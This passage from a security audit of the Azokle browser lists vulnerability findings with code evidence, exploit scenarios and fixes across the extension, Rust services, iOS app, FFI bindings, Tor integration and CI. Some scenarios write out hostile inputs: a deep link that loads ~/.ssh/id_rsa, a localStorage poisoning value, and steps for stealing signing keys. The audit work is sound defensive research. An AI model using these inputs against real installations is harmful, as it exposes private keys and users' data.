| **CWE** | CWE-346 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N` = 3.1 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-037` |

**Description.** GET_SCRIPTLETS/GET_COSMETIC_CSS handlers accept message.domain from any frame of any site (no frameId gate, unlike RECORD_BLOCK) and query the native engine for that arbitrary domain, turning the bridge into a per-domain rule oracle. PWA_MANIFEST_DISCOVERED and ARTICLE_CONTENT_DISCOVERED forward the entire message object - including page-controlled manifestUrl, manifestJson, pageTitle and themeColor - verbatim into the privileged native app, so every downstream consumer inherits a page-controlled data flow. Only the extension's own content scripts can call these handlers today, which caps severity, but the pattern defeats the sender-tab/domain binding the codebase applies elsewhere.

**Code evidence**

```js
} else if (message.type === 'GET_SCRIPTLETS') {
    var rawDomain = message.domain || (sender?.tab?.url ? extractHostname(sender.tab.url) : '');
    var domain = /^[a-zA-Z0-9.-]{1,253}$/.test(rawDomain) ? rawDomain : '';
    browser.runtime.sendNativeMessage('nativeApp', { type: 'GET_SCRIPTLETS', domain });
// PWA_MANIFEST_DISCOVERED: sendNativeMessage('nativeApp', message)  <- raw object
```

**Exploit scenario.** A content script in any iframe calls GET_SCRIPTLETS with domain=google.com to enumerate another site's rule set; a malicious page crafts PWA_MANIFEST_DISCOVERED with a hostile manifestUrl that a native consumer later fetches or renders.

**Remediation.** Bind the requested domain to the sender (extractHostname(sender.tab.url) equality), gate on sender.frameId === 0, and replace raw object forwarding with an explicit whitelist-constructed message.

---

<a id="azk-f-038"></a>
### `AZK-F-038` — [LOW 3.7] Download destination_path accepted verbatim from callers; import_json restores unsanitized paths

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/services/downloads/src/lib.rs:157-200 (create_download), import_json | **Component** | Downloads Service (Rust) |
| **CWE** | CWE-22 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-038` |

**Description.** DownloadManager::sanitize_filename() is solid - '..' replacement, an [A-Za-z0-9._-] allowlist, leading-dot stripping and a 128-char cap neutralize traversal in the filename. However create_download() stores destination_path exactly as passed, and the companion import_json() replaces the item list wholesale without re-sanitizing either field. The filename defense therefore guards only half of the final path composition; any caller that forwards externally influenced data (e.g. the extension's PWA/ARTICLE messages reaching native code, or a poisoned settings export) selects arbitrary write destinations.

**Code evidence**

```rust
let item = DownloadItem {
    filename: safe_name,                          // sanitized
    destination_path: destination_path.to_string(), // verbatim, unsanitized
    ...
};
// import_json: *list = imported;  (no re-validation of paths)
```

**Exploit scenario.** A native bridge that builds destination_path from the extension's page-controlled manifest data (see AZK-F-037) or a tampered export file inserts ../../ somewhere outside the downloads directory; the download writes there with the app's permissions.

**Remediation.** Canonicalize destination_path under a fixed downloads root at consumption time (reject any resolved path outside it), and run sanitize_filename() over imported filenames plus a path check over imported destinations.

---

<a id="azk-f-039"></a>
### `AZK-F-039` — [LOW 2.5] Permission audit history query uses substring matching, leaking audit records across origins

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/services/permissions/src/lib.rs (get_audit_history_for_origin) | **Component** | Permissions Service (Rust) |
| **CWE** | CWE-639 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N` = 2.5 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-039` |

**Description.** get_audit_history_for_origin() filters records with r.origin == canon || canon.contains(&amp;r.origin). The second clause matches when the queried canonical origin contains a stored origin as a substring - e.g. querying https://example.com.evil.com returns records belonging to https://example.com. Within a single manager instance this is an information disclosure between site-scoped audit views, and it becomes material wherever audit data is rendered in a per-site settings page.

**Code evidence**

```rust
.filter(|r| r.origin == canon || canon.contains(&r.origin))
//                              ^ substring: "https://example.com" in "https://example.com.evil.com"
```

**Exploit scenario.** An attacker-operated origin whose canonical name embeds a victim's origin queries its own audit view and receives the victim origin's permission-change history entries in the response set.

**Remediation.** Drop the substring clause (exact canonical equality only), or compare parsed components (scheme + host + port) if ancestor matching is genuinely required.

---

<a id="azk-f-040"></a>
### `AZK-F-040` — [LOW 3.0] Settings import_json accepts arbitrary configuration including a custom DoH endpoint with no scheme or domain validation

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/storage/src/lib.rs:174-185 (import_json); BrowserSettings.doh_provider/custom_doh_url | **Component** | Storage Service (Rust) |
| **CWE** | CWE-20 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N` = 3.0 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-040` |

**Description.** import_json() deserializes a whole BrowserSettings and swaps it in wholesale. custom_doh_url is an arbitrary string and doh_provider any string - no scheme check (https only), no host validation, and recent_searches are also replaced by whatever the import contains (an immediate privacy-surface poisoning). Today no consumer dereferences custom_doh_url (the DoH engine is unimplemented, AZK-F-025), which keeps this latent; the moment the DoH feature lands, a settings file becomes a resolver-injection vector.

**Code evidence**

```rust
if let Ok(imported) = serde_json::from_str::<BrowserSettings>(json_str) {
    *self.settings.write() = imported;   // custom_doh_url, doh_provider, recent_searches all replaced
    true
}
```

**Exploit scenario.** A malicious sync/import payload sets custom_doh_url to an attacker server; once the DoH path is wired, every subsequent resolution is answered by the attacker - full DNS-level traffic steering with no per-site prompt.

**Remediation.** Validate on import: custom_doh_url must parse as https:// with a valid DNS host, doh_provider must be in the known enum, and preserve or clear (never silently replace) recent_searches.

---

<a id="azk-f-041"></a>
### `AZK-F-041` — [LOW 3.7] Desktop OpenTab path bypasses the Navigate scheme allowlist (AZK-LOW-12 fix incomplete)

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | engine/desktop/src/DesktopBrowserApp.cpp (OpenTab vs Navigate) | **Component** | Desktop Engine (C++) |
| **CWE** | CWE-862 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-041` |

**Description.** DesktopBrowserApp::Navigate() enforces the http/https/azokle/about:blank scheme allowlist added by the prior audit, but OpenTab() loads its url argument directly via session-&gt;LoadUri(url) with no such check. Any code path that creates tabs from external input (deep links, restored sessions, the protocol handler registered by the Linux .desktop file - see the x-scheme-handler/azokle note in the docs) reaches the engine without scheme review. The allowlist is therefore a per-call-site convention rather than an enforced boundary.

**Code evidence**

```cpp
std::shared_ptr<DesktopTab> DesktopBrowserApp::OpenTab(const std::string& url, ...) {
    ...
    session->LoadUri(url);   // no scheme allowlist; Navigate() checks, OpenTab() does not
}
```

**Exploit scenario.** An external application opens azokle://open?...url=file:///home/user/.ssh/id_rsa (or a javascript: URL) on Linux; the handler maps to OpenTab and the session loads the privileged scheme directly.

**Remediation.** Centralize the allowlist in a single LoadUriWithPolicy() used by both OpenTab and Navigate, and sanitize the azokle:// scheme handler contract (documented grammar + argument validation).

---

<a id="azk-f-042"></a>
### `AZK-F-042` — [LOW 3.6] New-tab page rehydrates shield metrics from localStorage without shape validation: persistent crash and spoofed statistics

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | ui/src/pages/newtab/NewTabPage.tsx:30-46,128-129,179 | **Component** | Browser Chrome (TypeScript) |
| **CWE** | CWE-20 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:L` = 3.6 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-042` |

**Description.** The NTP reads azokle_shield_metrics from localStorage and JSON.parse()s it with zero shape validation before rendering. A value like {"totalBlocked":{}} makes metrics.totalBlocked.toLocaleString throw inside the React render tree - the NTP white-screens and, because the poison persists across launches, the failure repeats every start. Numeric garbage fabricates the hero privacy-statistics counter. Sites-list rehydration is properly URL-sanitized in the same file; the metrics path is the unvalidated sibling. React escaping prevents XSS, so impact is availability and integrity of the stats surface.

**Code evidence**

```ts
const cached = localStorage.getItem('azokle_shield_metrics');
if (cached) return JSON.parse(cached);   // no validation
...
{metrics.totalBlocked.toLocaleString()}   // {} -> TypeError in render
```

**Exploit scenario.** localStorage.azokle_shield_metrics = '{"totalBlocked":{}}' (via any same-origin write, or a chained chrome-origin issue) bricks the new-tab page persistently; '{"totalBlocked":999999999}' fakes the privacy stats users rely on.

**Remediation.** Validate the parsed object: Number.isFinite(totalBlocked) &amp;&amp; totalBlocked &gt;= 0 &amp;&amp; typeof isShieldActive === 'boolean', otherwise discard and re-seed defaults; wrap the read in try/catch.

---

<a id="azk-f-043"></a>
### `AZK-F-043` — [LOW 3.7] Per-site shield toggle is a fiction: the WebView never consults siteShieldOverrides

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios/Azokle Browser/Views/PrivacyShieldSheet.swift:71-74; Engine/WebViewContainer.swift:16-24 | **Component** | iOS App (Swift) |
| **CWE** | CWE-446 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:N/I:L/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-043` |

**Description.** PrivacyShieldSheet writes per-host state via setShieldEnabled(_:for:), but WebViewContainer checks only the global isShieldActive when deciding whether to add the content-rule list, and injects the defuser WKUserScript unconditionally. AdBlockEngine.isShieldEnabled(host:)/getShieldState have zero callers, and the blockedTrackers counter is never incremented by any engine. The UI therefore reports 'Shield Paused on &lt;host&gt;' and per-site tracker counts that have no effect on what is actually blocked. Failing closed means no attacker benefit - but a security control that does nothing while claiming to is itself a defect users will trust to their detriment.

**Code evidence**

```swift
set: { state.setShieldEnabled($0, for: currentHost) }   // writes overrides
// WebViewContainer.makeUIView: only `state.isShieldActive` checked; script added unconditionally
```

**Exploit scenario.** A user pauses shields for a banking site expecting scripts to load correctly (or enables strict blocking expecting fewer scripts); neither expectation is honored - the global rules apply regardless, and the counters shown are fiction.

**Remediation.** In makeUIView/updateUIView consult AdBlockEngine.shared.isShieldEnabled(host:) before adding the rule list and gate the WKUserScript/cosmetic CSS injection on it; wire blockedTrackers to a real callback or remove the counters.

---

<a id="azk-f-044"></a>
### `AZK-F-044` — [LOW 3.7] Shield-off state still injects the WebRTC-stripping defuser script (page-detectable browser modification)

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios/Azokle Browser/Engine/WebViewContainer.swift:22-51 | **Component** | iOS App (Swift) |
| **CWE** | CWE-446 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:N/I:L/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-044` |

**Description.** The content-rule list is added only when state.isShieldActive, but shieldScript - a defuser patching RTCPeerConnection.prototype.createOffer and planting window.canRunAds markers - is added to userContentController unconditionally. With the global shield disabled, every site still observes the patched createOffer and spoofed anti-adblock flags. Beyond contradicting the user's explicit setting, the patch itself is a fingerprinting signal: it distinguishes Azokle users from vanilla-Safari populations.

**Code evidence**

```swift
if self.state.isShieldActive { configuration.userContentController.add(ruleList) }
configuration.userContentController.addUserScript(shieldScript)   // unconditional
```

**Exploit scenario.** A page that overrides RTCPeerConnection.createOffer and compares behavior fingerprints Azokle despite the user's shield-off preference; anti-adblock gates read canRunAds markers that should not exist.

**Remediation.** Gate addUserScript(shieldScript) on the same shield-active/host condition as the rule list, and rebuild the user content controller on setting changes.

---

<a id="ch-10"></a>
## 10. Cryptography and Secrets

The cryptographic core itself is well built — Argon2id parameters are modern, ChaCha20-Poly1305 nonces are fresh per call, AAD binds record context, and the Tor control-string escaping is correct. The findings in this chapter therefore concern everything around the primitives: a keychain recovery path that destroys data on transient errors, a certificate inspector that fabricates TLS facts, fabricated Tor circuit telemetry, FFI contract drift around the passkey API, and signature verification that exists but is never called. This chapter documents 10 findings (0 HIGH, 3 MEDIUM).

<a id="azk-f-045"></a>
### `AZK-F-045` — [MEDIUM 6.6] Vault master-key recovery path deletes and recreates the keychain key on any transient read error, destroying all previously encrypted data

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios/Azokle Browser/Security/EncryptedVaultManager.swift:98-102 | **Component** | iOS App (Swift) |
| **CWE** | CWE-1188 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:H/A:H` = 6.6 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-045` |

**Description.** Key provisioning treats any SecItemCopyMatching failure other than a successful read as 'key absent' when an errSecDuplicateItem then occurs on add: it deletes the existing keychain item and creates a new one. A transient failure such as errSecInteractionNotAllowed (device locked, keychain unavailable) therefore silently rotates the master key, after which every previously encryptString()-ed ciphertext is permanently undecryptable - silent, unrecoverable data destruction triggered by an unlucky timing window. The code comment claims 'Secure Enclave / Hardware-Bound', but the key is a plain generic-password item with no kSecAttrAccessControl and no enclave wrapping.

**Code evidence**

```swift
if addStatus == errSecDuplicateItem {
    SecItemDelete(addQuery as CFDictionary)     // reached for ANY copy failure while item exists
    SecItemAdd(addQuery as CFDictionary, nil)   // -> new key; old ciphertexts orphaned
}
```

**Exploit scenario.** A background refresh triggers vault key provisioning while the device is locked; SecItemCopyMatching returns errSecInteractionNotAllowed, the code rotates the key, and on next unlock every stored vault record fails decryption - permanent loss presented to the user as corruption.

**Remediation.** Generate only when status == errSecItemNotFound; treat every other status as fatal and fail closed (no delete). For genuine hardware binding use SecureEnclave.P256 key wrapping or kSecAttrAccessControl with a device-locked accessibility attribute.

---

<a id="azk-f-046"></a>
### `AZK-F-046` — [MEDIUM 6.5] Certificate inspector displays fabricated TLS data for every HTTPS site

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios/Azokle Browser/Model/BrowserState.swift:564-639; Views/SiteSecurityCertificateSheet.swift:300,326 | **Component** | iOS App (Swift) |
| **CWE** | CWE-345 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N` = 6.5 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-046` |

**Description.** The Site Security sheet renders hardcoded certificate fields - a fixed issuer ('GTS CA 1C3 / Let's Encrypt Authority'), fixed validity dates, a fixed SHA-256 fingerprint, plus invented 'TLS 1.3' and 'Kyber-1024' details - for every HTTPS site, with a copyable fingerprint and a 'Verified Identity' verdict. Nothing is read from the real session: no URLSessionTaskDelegate challenge handling, no SecTrustCopyCertificateChain. A user performing the one task the sheet exists for - verifying they are talking to the right server - compares an invented fingerprint. WebKit's actual validation is real; the UI asserting specific fabricated details about it is worse than showing nothing.

**Code evidence**

```swift
issuedByCn: "GTS CA 1C3 / Let's Encrypt Authority",
validFrom: "Sep 01, 2026", sha256Fingerprint: "9A:1B:7F:43:...",   // same for every site
// + "TLS 1.3", "Kyber-1024", "Verified Identity" - all hardcoded
```

**Exploit scenario.** A security-conscious user checks the padlock sheet against an out-of-band fingerprint; the values never change, so the sheet can never detect a substitution attack, and its 'Verified Identity' verdict actively misleads during an incident.

**Remediation.** Either surface the real chain via didReceive challenge / SecTrustCopyCertificateChain + SecCertificateCopyData hashing, or replace the sheet with an honest 'certificate details are validated by the system WebKit engine' summary with no fabricated fields.

---

<a id="azk-f-047"></a>
### `AZK-F-047` — [LOW 2.0] SovereignPasskey: signature counter overflows silently and rp_id is accepted unvalidated

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/crypto/src/passkey.rs:89,109-126 | **Component** | Crypto Core (Rust) |
| **CWE** | CWE-190 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N` = 2.0 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-047` |

**Description.** sign_assertion() increments sign_count with += on a u32; in release Rust this wraps silently, and WebAuthn semantics treat a non-increasing (wrapped) counter as a cloned-authenticator signal - so the replay-detection feature the struct documents misbehaves after 2^32 signatures (or immediately, if a caller seeds a near-max count). rp_id is stored as rp_id.to_lowercase() with no validation that it is a registrable domain; callers passing 'github.com:443' or 'user@github.com' create credentials whose RP ID the sign path never constrains (this layer is a primitive; binding happens in callers - see AZK-F-049 for the missing export that would exercise it).

**Code evidence**

```rust
self.sign_count += 1;                       // u32 wrap in release
rp_id: rp_id.to_lowercase(),                // no domain validation
```

**Exploit scenario.** A relying party verifying the assertion's counter observes a wrap and must reject the credential as possibly cloned; unvalidated rp_id enables credential confusion across origins in any caller that trusts the stored value.

**Remediation.** Use checked_add / saturating semantics and flag overflow explicitly per WebAuthn guidance; validate rp_id as a registrable domain (registrable-domain suffix of the request origin) at creation.

---

<a id="azk-f-048"></a>
### `AZK-F-048` — [LOW 2.7] Password generator returns a truncated password on RNG failure and copies it to the general pasteboard

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios/Azokle Browser/Security/EncryptedVaultManager.swift:154-163; Views/PasskeyVaultSheet.swift:214 | **Component** | iOS App (Swift) |
| **CWE** | CWE-338 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:R/S:U/C:L/I:N/A:N` = 2.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-048` |

**Description.** The generator loops SecRandomCopyBytes per character and breaks out of the loop on any non-success status, returning the shorter string as if it were the requested length - a silently weakened password presented as strong. The generated secret is then placed on UIPasteboard.general with no expirationDate and no local-only option, so other apps and the Handoff/Universal Clipboard path can read it long after.

**Code evidence**

```swift
guard status == errSecSuccess else { break }   // returns short password as valid
UIPasteboard.general.string = generatedPassword  // no expiration/local-only options
```

**Exploit scenario.** On a device with a degraded secure-random source (or under rare keychain pressure) the user receives an 11-character password labeled as the configured length; the same secret remains world-readable on the pasteboard indefinitely.

**Remediation.** Treat SecRandomCopyBytes failure as fatal (throw/loop with retry cap) and copy via UIPasteboard.general.setItems with [.expirationDate] and the local-only option.

---

<a id="azk-f-049"></a>
### `AZK-F-049` — [LOW 2.5] Public C header declares azokle_passkey_sign but no implementation exists (API contract drift at the trust boundary)

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | bindings/c/include/azokle_core.h:154-164 vs bindings/c/src/lib.rs (0 occurrences of passkey_sign) | **Component** | C Bindings |
| **CWE** | CWE-436 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:N/A:L` = 2.5 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-049` |

**Description.** The installed header advertises azokle_passkey_sign(credential_id_b64, auth_data, auth_len, client_hash, hash_len) returning a JSON signature blob, but the cdylib neither implements nor exports the symbol. Consumers linking against the header fail at load time, or worse, provide their own weak stub that returns success without a real signature - turning a missing symbol into a fail-open passkey flow. A CI check asserting header/export parity does not exist (the same drift produced the stale Swift bindings, AZK-F-063).

**Code evidence**

```c
char* azokle_passkey_sign(
    const char* credential_id_b64,
    const uint8_t* auth_data, size_t auth_len,
    const uint8_t* client_hash, size_t hash_len);
// grep passkey_sign bindings/c/src/lib.rs -> 0 hits
```

**Exploit scenario.** A desktop consumer stubs the missing symbol to keep linking; passkey assertions are then accepted with an empty/unsigned 'signature', defeating origin binding in that integration.

**Remediation.** Implement the export (delegating to SovereignPasskey::sign_assertion) or delete the declaration; add a CI step that parses azokle_core.h and asserts every symbol has a matching #[no_mangle] export.

---

<a id="azk-f-050"></a>
### `AZK-F-050` — [LOW 2.6] FFI entry points accept unvalidated raw pointer/length pairs; byte_buffer_free reconstructs a Box from caller data

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | bindings/c/src/lib.rs:285-310 (passkey_create), 374-412 (serialize/free), 43-49 (core_init) | **Component** | C Bindings |
| **CWE** | CWE-125 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N` = 2.6 LOW |
| **Confidence** | POSSIBLE | **Tracking ID** | `AZK-F-050` |

**Description.** azokle_passkey_create() builds a slice with std::slice::from_raw_parts(user_handle, handle_len) and azokle_core_load_serialized_engine() accepts an arbitrary length with no sanity cap - classic buffer-overread primitives if a caller is ever attacker-influenced (e.g. a JSON-parsed length that overflowed). azokle_byte_buffer_free(ptr, len) reconstructs Box&lt;[u8]&gt; from the caller-supplied pair, so a double-free or mismatched length corrupts the allocator. azokle_core_init returns a leaked Arc by design with no matching free and no documented ownership contract.

**Code evidence**

```rust
let handle_slice = unsafe { std::slice::from_raw_parts(user_handle, handle_len) };  // uncapped
pub extern "C" fn azokle_byte_buffer_free(ptr: *mut u8, len: usize) {
    let _ = Box::from_raw(std::ptr::slice_from_raw_parts_mut(ptr, len));  // caller-controlled
}
```

**Exploit scenario.** An embedding layer that forwards attacker-controlled WebAuthn user_handle bytes with an inflated handle_len slices beyond the allocation; private heap contents flow into the passkey JSON response. A mismatched buffer_free call corrupts the heap (masked as an abort under panic=abort).

**Remediation.** Cap all length parameters (e.g. MAX_USER_HANDLE = 1024, engine blob &lt;= 64 MB) returning null on violation; make byte_buffer_free consume a length-verified wrapper struct; document core_init singleton ownership.

---

<a id="azk-f-051"></a>
### `AZK-F-051` — [LOW 3.1] Sync protocol defines transport envelopes with no authentication, freshness or sender binding (latent)

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/services/sync/src/lib.rs:33-56 | **Component** | Sync Service (Rust) |
| **CWE** | CWE-345 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:L/A:N` = 3.1 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-051` |

**Description.** EncryptedSyncPayload carries version, sender_device_id, encrypted_payload_b64 and an unauthenticated timestamp; there is no signature, no device-key binding and no replay window. The struct is transport-agnostic scaffolding with no network code yet, so the issue is latent - but the shape guarantees that whoever implements the transport will inherit a spoofable channel unless crypto is added to the protocol itself. The public_key_b64 field on SyncDevice is likewise never used for any verification.

**Code evidence**

```rust
pub struct EncryptedSyncPayload {
    pub version: u32,
    pub sender_device_id: String,      // spoofable
    pub encrypted_payload_b64: String, // no signature/MAC binding
    pub timestamp: u64,                // unchecked
}
```

**Exploit scenario.** Once a transport lands, any peer able to inject messages forges sender_device_id and replays ciphertexts; receivers merge attacker-chosen state into the sync group.

**Remediation.** Extend the protocol now: Ed25519 signature over (version, sender_device_id, timestamp, ciphertext) with the device public key, monotonic per-device timestamp windows, and a device-key rotation record.

---

<a id="azk-f-052"></a>
### `AZK-F-052` — [MEDIUM 4.0] Tor verification fabricates circuit metadata and never authenticates to the control port; UI ships a fake Tor cockpit

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/tor/src/lib.rs:282-310 (verify_tor_exit), 294-296 (auth=None); apps/ios Tor/TorCircuitManager.swift:99-131; Views/TorConnectScreen.swift:227-252 | **Component** | Tor Integration (Rust/Swift) |
| **CWE** | CWE-345 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:N/I:L/A:N` = 4.0 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-052` |

**Description.** verify_tor_exit() performs a genuine SOCKS5 handshake and a control-port bootstrap check - and then returns a TorExitInfo whose guard/middle/exit node names, countries and 'Authentic' labels are hardcoded strings ('Entry Guard Relay (Layer 1)', 'Encrypted Onion Hop'), with a timestamp-derived circuit id when GETINFO yields nothing. The control-port call passes auth=None, sending AUTHENTICATE "" which real daemons with CookieAuth/HashedControlPassword reject - so on hardened setups verification fails closed (correct but broken UX), while on unauthenticated daemons it succeeds. The iOS cockpit compounds this: TorConnectScreen prints '&gt; Guard -&gt; Middle -&gt; Exit 3-hop circuit verified' regardless of the error state, and TorCircuitManager keeps buildSampleConnectedCircuit() with fabricated relay IPs. Users are shown a verified circuit that does not exist.

**Code evidence**

```rust
let (circuit_id, _) = Self::query_control_circuit_status(control_port, None)?;  // no auth
Ok(TorExitInfo {
    ip: "Tor Exit Relay (Authentic)".to_string(),      // fabricated
    guard_node: "Entry Guard Relay (Layer 1)".to_string(),
    exit_country: "Verified Tor Network".to_string(),
    circuit_id,                                        // timestamp fallback
})
```

**Exploit scenario.** A user inspects the circuit sheet during a failed bootstrap and sees a 'verified 3-hop circuit'; confidence in the Tor feature is manufactured by code that never observed any relays. Anti-pattern: fabricated security telemetry in a privacy product.

**Remediation.** Populate TorExitInfo only from real GETINFO circuit-status fields (or return None per-hop), require an authenticated control connection (cookie/password parameterized), delete buildSampleConnectedCircuit(), and render the honest error state in the cockpit.

---

<a id="azk-f-053"></a>
### `AZK-F-053` — [INFO 2.0] ScriptletSignatureValidator is orphaned: the AZK-MED-09 remediation shipped the validator but never wired it

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios/Azokle Browser/Security/ScriptletSignatureValidator.swift:13-52 (zero callers) | **Component** | iOS App (Swift) |
| **CWE** | CWE-1104 | **CVSS v3.1** | `N/A (control gap)` = 2.0 INFO |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-053` |

**Description.** The fail-closed Ed25519 scriptlet signature validator exists in full but has zero call sites; the only injected script is the static in-app defuser, so nothing remote is validated today. The prior audit finding AZK-MED-09 was closed by adding this class, but the enforcement point (a documented remote-scriptlet loading path) was never built. When Android-parity work adds remote scriptlet loading, the validator is the kind of orphaned control that gets forgotten - resurrecting the original untrusted-scriptlet injection issue. Dead security code also misleads auditors into assuming enforcement exists.

**Code evidence**

```swift
// ScriptletSignatureValidator.swift - complete fail-closed verifier
// grep for callers across apps/ios -> none
```

**Exploit scenario.** No direct impact today. Any future 'load scriptlets from the filter bundle' feature that skips the validator reintroduces arbitrary script injection with the audit trail claiming it is signed.

**Remediation.** Either delete the class or wire it into a documented loading path with the distribution public key pinned in the bundle (not fetched), and add a test asserting remote scriptlets without valid signatures are rejected end-to-end.

---

<a id="azk-f-054"></a>
### `AZK-F-054` — [INFO 2.0] Tor control port derived as socks_port + 1 with u16 wraparound

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/tor/src/lib.rs:293-296 | **Component** | Tor Integration (Rust) |
| **CWE** | CWE-190 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:N/A:L` = 2.0 INFO |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-054` |

**Description.** verify_tor_exit() computes control_port = socks_port + 1 on a u16; at socks_port 65535 this wraps to 0 in release (panics in debug), pointing the control connection at port 0 and failing verification with a confusing error. Any user-configured SOCKS port in the upper range breaks verification silently.

**Code evidence**

```rust
let control_port = socks_port + 1;   // u16: 65535 + 1 wraps/panics
```

**Exploit scenario.** Configuration-level edge: a user setting SOCKS to 65535 makes Tor verification fail with 'port 0 unreachable' rather than a clear validation message.

**Remediation.** Validate socks_port &lt;= 65334 at configuration time or use checked_add with a descriptive error.

---

<a id="ch-11"></a>
## 11. Supply Chain, Build and CI/CD

Supply-chain findings dominate the HIGH-severity count because the repository's release pipeline concentrates privilege: signing secrets in runner environments, mutable action references including `@master`, an unvalidated committed wrapper binary, and a security-scan workflow that uploads nothing and fails nothing. Every exploit path in this chapter begins with a compromised dependency, action or maintainer session — the same attacker who, in a browser project, is one step away from shipping signed malware to the entire user base. This chapter documents 11 findings (1 HIGH, 3 MEDIUM).

<a id="azk-f-055"></a>
### `AZK-F-055` — [HIGH 7.0] All first-party CI workflows pin actions by mutable tag/branch - including @master - in workflows that carry Android signing secrets

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | .github/workflows/ci.yml:22,25,30,49,71; release.yml:23,28,105; security-scan.yml:20,23,43; fdroid.yml:25,62,67,117,126 | **Component** | CI/CD |
| **CWE** | CWE-829 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:N` = 7.0 HIGH |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-055` |

**Description.** Every first-party workflow references third-party actions by mutable ref: actions/checkout@v7, dtolnay/rust-toolchain@stable, Swatinem/rust-cache@v2, softprops/action-gh-release@v3, and aquasecurity/trivy-action@master. A compromised, hijacked or deleted-and-recreated upstream repository executes attacker Node.js code on the runner with zero repo-side change. The vendored adblock-rust crate proves the team knows the right pattern - its own CI pins actions by full commit SHA. In release.yml and fdroid.yml the runner decodes the Android keystore and key passwords into the environment and publishes release artifacts, so a single poisoned action converts into signed-malware distribution and permanent signing-key compromise.

**Code evidence**

```yaml
# security-scan.yml
- uses: aquasecurity/trivy-action@master      # mutable ref, weekly cron
# release.yml - same pattern, with secrets in scope:
- uses: actions/checkout@v7
- uses: softprops/action-gh-release@v3
```

**Exploit scenario.** An attacker obtains write access to a referenced action (or its transferred domain); the next push/tag run executes their step inside release.yml, reads ANDROID_KEYSTORE_PASSWORD and the decoded .jks from the workspace, exfiltrates them, and substitutes a trojaned APK before the GitHub Release step uploads it.

**Remediation.** Pin every action to a full 40-character commit SHA with a version comment (mirroring crates/privacy/adblock-rust/.github/workflows/ci.yml:33), and enforce repo-wide via actionlint/bcgart in CI.

---

<a id="azk-f-056"></a>
### `AZK-F-056` — [MEDIUM 6.0] Signing workflows run with contents:write, persisted checkout credentials, and keystore passwords exported into the build environment

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | .github/workflows/release.yml:14-15,43-76,100-102; fdroid.yml:16-17,80-106; adblock-rust perf-ci.yml:14-17 | **Component** | CI/CD |
| **CWE** | CWE-250 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:L/A:N` = 6.0 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-056` |

